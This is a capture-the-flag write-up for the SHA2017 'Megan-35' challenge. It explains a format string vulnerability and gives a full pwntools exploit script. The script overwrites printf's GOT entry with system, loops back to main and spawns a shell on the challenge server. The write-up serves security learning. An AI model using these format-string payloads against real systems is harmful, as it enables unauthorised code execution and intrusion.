 ```yaml
---
title: "SHA2017 - Megan-35 (200pt)"
description: "Format string attack"
date: 2017-08-06
tags: ["exploit"]
---
```


# Megan-35 (200pt)

**`Pwnable`**

**Description:** We created our own Megan-35 decoding tool, feel free to test it. System is running Ubuntu 16.04, ASLR is disabled.

**Files:**

* [megan-35](/code/2017/SHA2017/megan-35/megan-35)
* [libc.so.6](/code/2017/SHA2017/megan-35/libc.so.6)
* Exploit script: [solveMegan35.py](/code/2017/SHA2017/megan-35/solveMegan35.py)

# Solution

This was a pretty standard format string attack. The approach I used was to perform four writes at once to do the following:
- replace `printf@GOT` with `<system>`
- replace the saved return pointer with `<main>`

Then the program would effectively loop and call `system(user_input)` instead of `printf(user_input)`.

# Vulnerable Code

The actual vulnerability occured here near the end of `<main>`:

```x86asm
             __pic:
0804854c         pop        edx
0804854d         pop        ecx
0804854e         push       eax                                                 ; argument "src" for method j_strcpy
0804854f         push       ebx                                                 ; argument "dst" for method j_strcpy
08048550         call       j_strcpy
08048555         mov        dword [esp+0x238+var_238], ebx                      ; argument "format" for method j_printf
08048558         call       j_printf
0804855d         mov        edx, dword [ebp+var_1C]
08048560         xor        edx, dword [gs:0x14]
08048567         je         loc_804856e
```

The only gotcha was that the input was decoded using Megan-35 before it was printed. It turns out that Megan-35 is just Base64 with a different charset (I really have no idea why it exists).

Anyways, I was able to use the following python script to encode text:

```py
import base64

char_megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
char_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
char_map = dict(zip(char_base64, char_megan35))

def m35encode(s):
    b = base64.b64encode(s)
    return ''.join([char_map[x] for x in b])
```

# Crafting the Exploit

Using gdb to examine memory, I could see that the encoded text was stored on the stack starting at offset `7`. In order to maintain the address pointers, I sent them as plaintext. However, the actual format string attack had to be encoded with Megan-35.

Since ASLR was disabled, it was easy to leak a libc address and calculate the address of system using the provided libc.so binary.

Using the same method, you could leak a stack pointer and calculate the offset to the return address.

Once you had both these values, you could craft a 4 part format string attack (writing two bytes with `$hn`) and get a shell.

# Script
[view raw](/code/2017/SHA2017/megan-35/solveMegan35.py)

```py
# by hgarrereyn

from pwn import *

import base64
import binascii

char_megan35 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"
char_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
char_map = dict(zip(char_base64, char_megan35))

def m35encode(s):
    b = base64.b64encode(s)
    return ''.join([char_map[x] for x in b])


def r():
    print sock.recvline()

# ---

sock = remote('megan35.stillhackinganyway.nl', 3535)

sock.recvline()

# Overwrite printf@GOT with <system>
# system = 0xf7e50da0
system = 0xf7e53940
system_low = (system & 0xFFFF)
system_high = (system & 0xFFFF0000) >> 16

main = 0x080484ea
main_low = (main & 0xFFFF)
main_high = (main & 0xFFFF0000) >> 16

printf_got = 0x0804a00c

buff = ''

buff += '\x08\x04\xa0\x0c'[::-1] # printf@GOT
buff += '\x08\x04\xa0\x0e'[::-1] # printf@GOT + 2

buff += '\xff\xff\xdd\xcc'[::-1] # saved return address
buff += '\xff\xff\xdd\xce'[::-1] # saved return address + 2

buff_e = '' # stuff that needs to be encoded

# These need to be ordered from lowest to highest write value
buff_e += ('%' + str(main_high - 12) + 'x%10$hn')
buff_e += ('%' + str(system_low - main_high) + 'x%7$hn')
buff_e += ('%' + str(main_low - system_low) + 'x%9$hn')
buff_e += ('%' + str(system_high - main_low) + 'x%8$hn')

buff += m35encode(buff_e)

sock.sendline(buff)

c = sock.clean(timeout=1)

sock.sendline(m35encode('sh'))

print "Have a shell:"

sock.interactive()
```